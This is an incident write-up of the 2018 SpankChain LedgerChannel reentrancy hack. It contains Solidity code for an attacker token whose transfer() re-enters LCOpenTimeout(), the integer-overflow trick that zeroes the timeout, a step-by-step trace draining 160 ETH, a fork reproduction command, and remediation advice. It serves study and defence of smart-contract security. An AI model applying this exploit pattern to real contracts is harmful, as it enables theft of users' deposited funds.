


# SpankChain Exploit — Classic Reentrancy in `LedgerChannel.LCOpenTimeout()`

> **Vulnerability classes:** vuln/reentrancy/cross-function · vuln/logic/incorrect-order-of-operations

> One-line summary: the payment-channel contract refunds a self-deposited channel via an
> **attacker-controlled token whose `transfer()` re-enters `LCOpenTimeout()` before state is
> deleted**, letting the attacker reclaim the same 5-ETH deposit 32 times and drain the contract.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do
> not whole-compile, so this one was extracted). Full verbose trace:
> [output.txt](output.txt). Verified vulnerable source:
> [sources/LedgerChannel_f91546/LedgerChannel.sol](sources/LedgerChannel_f91546/LedgerChannel.sol).

---

## Key info

| | |
|---|---|
| **Loss (PoC, this fork)** | **155 ETH** net profit (160 ETH drained, 5 ETH self-seed returned). Public reports of the live 2018 hack cite ~$38K / ~40 ETH from the production pool. |
| **Vulnerable contract** | `LedgerChannel` — [`0xf91546835f756DA0c10cFa0CDA95b15577b84aA7`](https://etherscan.io/address/0xf91546835f756DA0c10cFa0CDA95b15577b84aA7#code) |
| **Victim** | SpankChain "Ledger Channel" payment-channel hub (Camshow/SpankPay state channels) |
| **Attacker EOA** | [`0xcf267eA3f1ebae3C29feA0A3253F94F3122C2199`](https://etherscan.io/address/0xcf267eA3f1ebae3C29feA0A3253F94F3122C2199) |
| **Attacker contract** | [`0xc5918a927C4FB83FE99E30d6F66707F4b396900E`](https://etherscan.io/address/0xc5918a927C4FB83FE99E30d6F66707F4b396900E) |
| **Attack tx** | [`0x21e9d20b57f6ae60dac23466c8395d47f42dc24628e5a31f224567a2b4effa88`](https://etherscan.io/tx/0x21e9d20b57f6ae60dac23466c8395d47f42dc24628e5a31f224567a2b4effa88) |
| **Chain / fork block / date** | Ethereum mainnet / 6,467,247 (forked from 6,467,248 − 1) / October 2018 |
| **Compiler** | Solidity v0.4.24+commit.e67f0147, optimizer enabled (500 runs) — per [`_meta.json`](sources/LedgerChannel_f91546/_meta.json) |
| **Bug class** | Reentrancy (state-mutation-after-external-call) via a caller-supplied malicious ERC20 token |

---

## TL;DR

`LedgerChannel` is a generalized state-channel contract. `createChannel()` lets a party (Alice)
open a channel by depositing ETH and/or an ERC20 token of **her own choosing** — the token address
is just a constructor argument. If the counterparty never joins, Alice can reclaim her deposit
after a timeout via `LCOpenTimeout()`.

`LCOpenTimeout()` performs **two external transfers and only then deletes the channel state**
([LedgerChannel.sol:412-427](sources/LedgerChannel_f91546/LedgerChannel.sol#L412-L427)):

```solidity
function LCOpenTimeout(bytes32 _lcID) public {
    require(msg.sender == Channels[_lcID].partyAddresses[0] && Channels[_lcID].isOpen == false);
    require(now > Channels[_lcID].LCopenTimeout);

    if(Channels[_lcID].initialDeposit[0] != 0) {
        Channels[_lcID].partyAddresses[0].transfer(Channels[_lcID].ethBalances[0]); // (1) ETH out
    }
    if(Channels[_lcID].initialDeposit[1] != 0) {
        require(Channels[_lcID].token.transfer(...));  // (2) external call into ATTACKER's token
    }
    emit DidLCClose(...);
    delete Channels[_lcID];   // (3) state cleared LAST — too late
}
```

The attacker opens a channel where `_token = <the attacker contract itself>`. The token's
`transfer()` is a stub that calls `LCOpenTimeout()` again. Because the channel struct is still
fully populated at step (2), each re-entrant call passes both `require`s and ships **another** 5 ETH
out at step (1). The PoC recurses 32 levels deep, draining `32 × 5 = 160 ETH`, then the call stack
unwinds and the `delete` finally fires 32 times against an already-emptied channel.

Two enabling tricks make this a single self-contained transaction:

1. **`LCopenTimeout` is forced to 0 via integer overflow.** `_confirmTime = type(uint256).max -
   block.timestamp + 1`, so `now + _confirmTime` wraps to `0` in unchecked 0.4.24 arithmetic,
   making `require(now > LCopenTimeout)` trivially true *in the same block the channel was created*
   — no waiting required.
2. **The ETH refund uses `.transfer()` (2300 gas)** which cannot reenter, but the **token refund
   uses a full external call** which can. The reentrancy lives entirely on the token path.

---

## Background — what the contract does

`LedgerChannel` ([source](sources/LedgerChannel_f91546/LedgerChannel.sol)) is SpankChain's on-chain
settlement layer for off-chain payment channels ("Ledger Channels", LC) and nested "Virtual
Channels" (VC). The relevant lifecycle for this bug:

- **`createChannel(_lcID, _partyI, _confirmTime, _token, _balances)`**
  ([:372-410](sources/LedgerChannel_f91546/LedgerChannel.sol#L372-L410)) — Alice (`partyA = msg.sender`)
  opens a channel against hub Ingrid (`partyI`). She deposits `_balances[0]` ETH (must match
  `msg.value`) and `_balances[1]` tokens of the ERC20 at `_token`. `LCopenTimeout` is set to
  `now + _confirmTime`. The channel is **not yet open** (`isOpen == false`) until Ingrid joins.
- **`LCOpenTimeout(_lcID)`** ([:412-427](sources/LedgerChannel_f91546/LedgerChannel.sol#L412-L427))
  — escape hatch: if Ingrid never joins, Alice reclaims her deposit after the timeout. Refunds ETH
  then tokens, then `delete`s the channel.

Critically, **the token contract is whatever Alice passed in** — there is no allowlist. The
contract treats `Channels[_lcID].token.transfer(...)` as a trusted, side-effect-free ERC20 call.
It is neither.

The on-chain state the PoC creates (read directly from the `createChannel` storage diff in
[output.txt](output.txt) lines 31-39):

| Slot field | Value |
|---|---|
| `partyAddresses[0]` (partyA) | the attacker helper `0x5615…b72f` |
| `partyAddresses[1]` (partyI) | the test/EOA `0x7FA9…1496` |
| `ethBalances[0]` (balanceA) | `0x4563918244f40000` = **5 ETH** |
| `initialDeposit[0]` (eth) | **5 ETH** |
| `initialDeposit[1]` (token) | **1** (non-zero ⇒ token branch executes) |
| `token` | the attacker helper (== partyA) |
| `LCopenTimeout` | `0xffff…a446aa48` then read as expired (overflowed) |

---

## The vulnerable code

### 1. The refund-then-delete ordering (`LCOpenTimeout`)

[sources/LedgerChannel_f91546/LedgerChannel.sol:412-427](sources/LedgerChannel_f91546/LedgerChannel.sol#L412-L427):

```solidity
function LCOpenTimeout(bytes32 _lcID) public {
    require(msg.sender == Channels[_lcID].partyAddresses[0] && Channels[_lcID].isOpen == false);
    require(now > Channels[_lcID].LCopenTimeout);

    if(Channels[_lcID].initialDeposit[0] != 0) {
        Channels[_lcID].partyAddresses[0].transfer(Channels[_lcID].ethBalances[0]);  // ETH refund
    }
    if(Channels[_lcID].initialDeposit[1] != 0) {
        require(
            Channels[_lcID].token.transfer(                 // ⚠️ external call into attacker code
                Channels[_lcID].partyAddresses[0],
                Channels[_lcID].erc20Balances[0]
            ),
            "CreateChannel: token transfer failure"
        );
    }
    emit DidLCClose(_lcID, 0, Channels[_lcID].ethBalances[0], Channels[_lcID].erc20Balances[0], 0, 0);

    // only safe to delete since no action was taken on this channel
    delete Channels[_lcID];   // ⚠️ state mutation AFTER both external calls — violates CEI
}
```

The developer comment *"only safe to delete since no action was taken on this channel"* shows the
author reasoned about the channel's logical state but **not** about reentrancy: nothing prevents the
function from being re-entered before the `delete` runs.

### 2. The deposit accepts an arbitrary token (`createChannel`)

[sources/LedgerChannel_f91546/LedgerChannel.sol:396-400](sources/LedgerChannel_f91546/LedgerChannel.sol#L396-L400):

```solidity
if(_balances[1] != 0) {
    Channels[_lcID].token = HumanStandardToken(_token);   // attacker-chosen address
    require(Channels[_lcID].token.transferFrom(msg.sender, this, _balances[1]),
            "CreateChannel: token transfer failure");
    Channels[_lcID].erc20Balances[0] = _balances[1];
}
```

The token is cast from `_token` with zero validation. In the PoC the attacker passes its own
contract, whose `transferFrom` returns `true` without moving anything and whose `transfer`
re-enters.

### 3. The attacker's weaponized token (the PoC helper)

[test/SpankChain_exp.sol:87-97](test/SpankChain_exp.sol#L87-L97):

```solidity
function transfer(address recipient, uint256 amount) public returns (bool) {
    if (count < limit) {                 // limit = 32
        count = count + 1;
        spankChain.LCOpenTimeout(hex"4e03657aea45a94fc7d47ba826c8d667c0d1e6e33a64a036ec44f58fa12d6c45");
    }
    return true;
}
function transferFrom(address sender, address recipient, uint256 amount) public returns (bool) {
    return true;                         // no-op so createChannel's transferFrom succeeds
}
```

---

## Root cause

A textbook **state-mutation-after-external-call (reentrancy)** bug, made exploitable because the
contract trusts a **caller-supplied** ERC20.

Concretely, four design decisions compose into the drain:

1. **Checks-Effects-Interactions is violated.** `LCOpenTimeout` performs its two refund transfers
   *before* `delete Channels[_lcID]`. The guard `require(isOpen == false)` and
   `require(msg.sender == partyA)` are both still satisfiable on re-entry because the channel state
   is untouched until the very end.
2. **The token is attacker-controlled.** `createChannel` accepts any `_token` address. The
   `.token.transfer()` at the end of `LCOpenTimeout` is therefore an external call into arbitrary
   attacker code — the perfect reentrancy hook. (The ETH refund just above it is safe only by
   accident, because `.transfer()` forwards 2300 gas.)
3. **No reentrancy guard.** There is no `nonReentrant` modifier anywhere in the contract; nested
   `LCOpenTimeout` calls are accepted.
4. **The timeout can be set to the past via overflow.** `LCopenTimeout = now + _confirmTime` with
   `_confirmTime = type(uint256).max - now + 1` wraps to `0` (no SafeMath in 0.4.24), so
   `require(now > 0)` passes immediately — the attacker need not wait out any real confirmation
   window. The trace records `LCopenTimeout: 0` in the `DidLCOpen` event ([output.txt:30](output.txt)).

The "effect" that *should* have made re-entry impossible — clearing `ethBalances[0]` /
`initialDeposit` / the whole struct — happens one statement too late.

---

## Preconditions

- Attacker deploys a contract that doubles as (a) `partyA` and (b) the channel's ERC20 `token`,
  whose `transfer()` re-enters `LCOpenTimeout` and whose `transferFrom()` returns `true`.
- Attacker calls `createChannel` with `_balances = [5 ETH, 1]` (non-zero token balance so the token
  branch runs) and `_confirmTime = type(uint256).max − now + 1` so the timeout overflows to 0.
- The `LedgerChannel` contract must hold enough ETH (from other honest channels' deposits) to
  satisfy the repeated 5-ETH refunds. In the PoC this headroom is supplied by `vm.deal` + the fork
  state; on mainnet it was the pooled liquidity of real SpankChain channels.
- Working capital is just the single 5-ETH deposit, fully recovered intra-transaction → effectively
  **flash-loanable** (the PoC models this with a 5-ETH seed that is "repaid" at the end:
  [test/SpankChain_exp.sol:55-58](test/SpankChain_exp.sol#L55-L58)).

---

## Step-by-step attack walkthrough

All values are taken directly from [output.txt](output.txt). Storage slot `@ 2` is the helper's
`count`; the channel struct lives under the `0x1e32…` keccak slots.

| # | Action | Trace evidence | Effect |
|---|--------|----------------|--------|
| 0 | Test seeds itself 5 ETH ("flashloan"), deploys helper, calls `exploit{value:5e18}(32)` | [output.txt:19-26](output.txt) | `limit = 32`, helper funded |
| 1 | `createChannel{value:5 ETH}(lcID, partyI, max−now+1, helper, [5e18, 1])` | [output.txt:27](output.txt) | Channel created: balanceA = 5 ETH, token = helper, `LCopenTimeout` overflows to 0 |
| 1a | Inside createChannel: `helper.transferFrom(...)` returns true (no-op) | [output.txt:28-29](output.txt) | Token "deposit" of 1 accepted without moving funds |
| 1b | `emit DidLCOpen(... LCopenTimeout: 0)` | [output.txt:30](output.txt) | Confirms timeout already in the past |
| 2 | `LCOpenTimeout(lcID)` — outer call | [output.txt:41](output.txt) | Enters refund path |
| 2a | ETH refund: `partyA.transfer(5 ETH)` → helper `fallback` (2300 gas, no-op) | [output.txt:42-43](output.txt) | 5 ETH leaves contract; **cannot** reenter (gas-limited) |
| 2b | Token refund: `helper.transfer(partyA, 1)` → re-enters `LCOpenTimeout` | [output.txt:44-45](output.txt) | ⚠️ recursion begins; `count 1→2` |
| 3 | Steps 2a-2b repeat at each nesting level, 32 times total | [output.txt:46-168](output.txt) | Each level ships **another 5 ETH** before any `delete` |
| 4 | Deepest call: `count == limit (32)`, helper.transfer no longer recurses, returns true | [output.txt:168-169](output.txt) | Recursion bottoms out |
| 5 | Stack unwinds: 32× `emit DidLCClose(... all zero)` + `delete Channels` | [output.txt:170-335](output.txt) | Channel cleared 32 times against already-zeroed state — harmless now |
| 6 | Helper forwards entire balance to test contract: `fallback{value:160 ETH}` | [output.txt:336](output.txt) | 160 ETH = 32 × 5 ETH delivered to attacker |
| 7 | Test "repays" 5 ETH flashloan to `address(0)` | [output.txt:341](output.txt) | Net pocketed = 160 − 5 = **155 ETH** |

Note in step 1: the storage diff at [output.txt:36-38](output.txt) shows
`ethBalances[0] = 0x4563918244f40000` (5 ETH) and `initialDeposit[1] = 1` — these are exactly the
two non-zero fields that drive the ETH-refund branch and the token-refund (reentrancy) branch.

### Why exactly 32× and 5 ETH each

The helper's `count` starts at 1 and recurses only while `count < limit (32)`, producing 32 total
`LCOpenTimeout` frames. **Every** frame re-reads the *still-unmodified* `ethBalances[0] = 5 ETH` and
`.transfer`s it, because `delete` has not yet executed in any ancestor frame. So the contract pays
out the same 5-ETH deposit 32 times: `32 × 5 = 160 ETH`. The trace's final
`fallback{value: 160000000000000000000}` ([output.txt:336](output.txt)) and
`Attacker After exploit ETH Balance: 155.000…` log ([output.txt:7](output.txt), [343](output.txt))
confirm both numbers to the wei.

---

## Profit / loss accounting (ETH)

| Direction | Amount |
|---|---:|
| In — attacker's own deposit (the "flashloaned" seed) | 5 |
| Out — `LedgerChannel` refunds, 32 × 5 ETH | 160 |
| Less — repay the 5-ETH seed | −5 |
| **Net profit** | **+155** |

```
Before exploit: attacker ETH = 0           (output.txt:6)
After  exploit: attacker ETH = 155.000000  (output.txt:7, 343)
```

The 160 ETH was drained from the pooled deposits of *honest* SpankChain channels held by the
`LedgerChannel` contract — only one 5-ETH deposit was ever genuinely the attacker's.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker / Helper<br/>(is partyA AND the token)"
    participant LC as "LedgerChannel<br/>0xf915…4aA7"

    Note over A,LC: Setup — single transaction
    A->>LC: "createChannel{5 ETH}(lcID, partyI, max-now+1, token=Helper, [5e18, 1])"
    LC->>A: "token.transferFrom() (no-op, returns true)"
    Note over LC: "balanceA=5 ETH, token=Helper, LCopenTimeout overflows → 0"

    A->>LC: "LCOpenTimeout(lcID)  — outer"
    Note over LC: "require(now > 0) ✓ ; require(isOpen==false) ✓"
    LC->>A: "partyA.transfer(5 ETH)  (fallback, 2300 gas, no reentry)"
    LC->>A: "token.transfer(partyA, 1)  ⚠️ external call"

    rect rgb(255,235,238)
    Note over A,LC: "Reentry loop (count 1 → 32), state NOT yet deleted"
    loop "31 re-entrant frames"
        A->>LC: "LCOpenTimeout(lcID)  (re-entrant)"
        Note over LC: "channel still intact → guards pass"
        LC->>A: "partyA.transfer(5 ETH)  ← same deposit paid again"
        LC->>A: "token.transfer(partyA, 1)  → recurse"
    end
    end

    Note over LC: "Stack unwinds: 32× emit DidLCClose + delete Channels (now harmless)"
    LC-->>A: "total 160 ETH delivered"
    Note over A: "Forward 160 ETH out, repay 5 ETH seed → net +155 ETH"
```

### Control flow inside `LCOpenTimeout` (why re-entry succeeds)



### Contract ETH balance vs. attacker payout



---

## Remediation

1. **Apply Checks-Effects-Interactions.** Zero out / `delete` the channel state *before* making any
   refund transfer:

   ```solidity
   function LCOpenTimeout(bytes32 _lcID) public {
       require(msg.sender == Channels[_lcID].partyAddresses[0] && !Channels[_lcID].isOpen);
       require(now > Channels[_lcID].LCopenTimeout);

       uint256 ethRefund   = Channels[_lcID].ethBalances[0];
       uint256 tokenRefund = Channels[_lcID].erc20Balances[0];
       bool hasEth   = Channels[_lcID].initialDeposit[0] != 0;
       bool hasToken = Channels[_lcID].initialDeposit[1] != 0;
       HumanStandardToken token = Channels[_lcID].token;
       address payee = Channels[_lcID].partyAddresses[0];

       delete Channels[_lcID];                       // EFFECTS first
       emit DidLCClose(_lcID, 0, ethRefund, tokenRefund, 0, 0);

       if (hasEth)   payee.transfer(ethRefund);       // INTERACTIONS last
       if (hasToken) require(token.transfer(payee, tokenRefund));
   }
   ```

2. **Add a reentrancy guard.** A `nonReentrant` mutex on every external-call-bearing function
   (`LCOpenTimeout`, `consensusCloseChannel`, `byzantineCloseChannel`) would have blocked the nested
   calls regardless of statement ordering. (Note `byzantineCloseChannel` carefully zeroes balances
   *before* transferring — see [:782-790](sources/LedgerChannel_f91546/LedgerChannel.sol#L782-L790) —
   so the author understood CEI elsewhere but missed it here.)

3. **Do not trust caller-supplied token contracts as side-effect-free.** Any call into an
   arbitrary ERC20 is an external call into untrusted code. Treat `token.transfer`/`transferFrom`
   exactly like a low-level call for reentrancy purposes, or restrict channels to an allowlisted set
   of tokens.

4. **Validate `_confirmTime` / use checked arithmetic.** Reject absurd `_confirmTime` values and use
   SafeMath (or compile with ≥0.8 checked arithmetic) so `now + _confirmTime` cannot wrap to a past
   timestamp.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile under a whole-project `forge build`):

```bash
_shared/run_poc.sh 2018-10-SpankChain_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block `6,467,247`, from 2018).
  Most pruned public RPCs will fail with `header not found` / `missing trie node` at this height.
- Result: `[PASS] testExploit()` with the attacker ending on 155 ETH.

Expected tail ([output.txt:3-7, 346-348](output.txt)):

```
Ran 1 test for test/SpankChain_exp.sol:SpankChainExploit
[PASS] testExploit() (gas: 1122808)
Logs:
  Attacker Before exploit ETH Balance: 0.000000000000000000
  Attacker After exploit ETH Balance: 155.000000000000000000
...
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: SpankChain payment-channel reentrancy, Ethereum mainnet, October 2018. The live incident
was widely reported (~$38K drained from the LedgerChannel hub plus a frozen BOOTY-token pool); this
PoC reproduces the exact reentrancy mechanic against the verified on-chain bytecode and nets 155 ETH
at the chosen fork block.*
